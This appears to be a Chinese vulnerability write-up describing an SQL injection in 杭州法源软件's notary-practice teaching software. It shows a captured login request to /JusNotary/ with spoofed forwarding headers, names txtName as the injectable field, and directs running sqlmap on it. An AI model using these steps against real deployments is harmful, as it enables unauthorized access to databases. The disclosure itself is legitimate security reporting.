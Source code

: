 # 杭州法源软件 公证实务教学软件 SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞

## 漏洞影响

```
杭州法源软件 公证实务教学软件
```

## 网络测绘

FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](./images/202202101856282.png)

登录抓取请求包



```plain
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```



其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下



![](./images/202202101856878.png)